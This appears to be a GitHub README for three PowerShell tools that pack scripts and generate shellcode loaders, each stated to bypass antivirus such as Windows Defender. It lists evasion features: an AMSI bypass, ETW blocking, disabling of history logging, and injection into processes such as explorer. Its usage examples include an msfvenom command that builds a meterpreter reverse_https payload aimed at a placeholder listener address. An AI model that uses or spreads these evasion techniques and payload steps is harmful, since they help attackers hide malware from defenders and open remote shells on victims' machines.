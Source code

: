 --------------------------------------
### Invoke-PoSH-Packer.ps1
--------------------------------------
'Invoke-PoSH-Packer' is a simple PowerShell script packer that aims to bypass AV solutions such as Windows Defender.

> Features
  - AES encryption and GZip compression (based on 'Xencrypt')
  - AMSI bypass
  - Blocking Event Tracing for Windows (ETW)
  - Disabling PowerShell history logging
  
> Usage
  - Import-Module ./Invoke-PoSH-Packer.ps1
  - Invoke-PoSH-Packer -FileUrl https://URL/script-to-pack.ps1 -OutFile C:\path\Packed-script.ps1  
  Or  
  - Invoke-PoSH-Packer -FilePath C:\path\script-to-pack.ps1 -OutFile C:\path\Packed-script.ps1

> License
  - GNU General Public License v3.0

--------------------------------------
### Invoke-PoSH-ShellCodeLoader1.ps1
--------------------------------------
'Invoke-PoSH-ShellCodeLoader1' is a simple shellcode loader generator that aims to bypass AV solutions such as Windows Defender.  
It generates an obfuscated and encrypted shellode loader script that will inject the shellcode into the current process's virtual address space.  
The shellcode needs to be generated with the format 'ps1' (e.g. [Byte[]] $buf = 0xfc,0x48,0x83,...)

> Features
  - Shellcode injection into the memory of the current process (PowerShell)
  - AES encryption and GZip compression (based on 'Xencrypt')
  - AMSI bypass
  - Blocking Event Tracing for Windows (ETW)
  - Disabling PowerShell history logging

> Usage (examples)
  - msfvenom -p windows/x64/meterpreter/reverse_https EXITFUNC=thread LHOST=X.X.X.X LPORT=443 -a x64 -f ps1 -o Shellcode
  - Import-Module ./Invoke-PoSH-ShellCodeLoader1.ps1
  - Invoke-PoSH-ShellCodeLoader1 -FileUrl https://URL/shellCode -OutFile C:\path\Packed-ShellCodeLoader.ps1  
  Or  
  - Invoke-PoSH-ShellCodeLoader1 -FilePath C:\path\shellCode -OutFile C:\path\Packed-ShellCodeLoader.ps1
  
> License
  - GNU General Public License v3.0

--------------------------------------
### Invoke-PoSH-ShellCodeLoader2.ps1
--------------------------------------
'Invoke-PoSH-ShellCodeLoader2' is a simple shellcode loader generator that aims to bypass AV solutions such as Windows Defender.  
It generates an obfuscated and encrypted shellode loader script that will inject the shellcode into a target process's virtual address space.  
The shellcode needs to be generated with the format 'ps1' (e.g. [Byte[]] $buf = 0xfc,0x48,0x83,...)

> Features
  - Shellcode injection into the memory of a target process
  - AES encryption and GZip compression (based on 'Xencrypt')
  - AMSI bypass
  - Blocking Event Tracing for Windows (ETW)
  - Disabling PowerShell history logging

> Usage (examples)
  - msfvenom -p windows/x64/meterpreter/reverse_https EXITFUNC=thread LHOST=X.X.X.X LPORT=443 -a x64 -f ps1 -o Shellcode
  - Import-Module ./Invoke-PoSH-ShellCodeLoader2.ps1
  - Invoke-PoSH-ShellCodeLoader2 -FileUrl https://URL/shellCode -TargetProcess explorer -OutFile C:\path\Packed-ShellCodeLoader.ps1  
  Or  
  - Invoke-PoSH-ShellCodeLoader2 -FilePath C:\path\shellCode -TargetProcess explorer -OutFile C:\path\Packed-ShellCodeLoader.ps1

> License
  - GNU General Public License v3.0
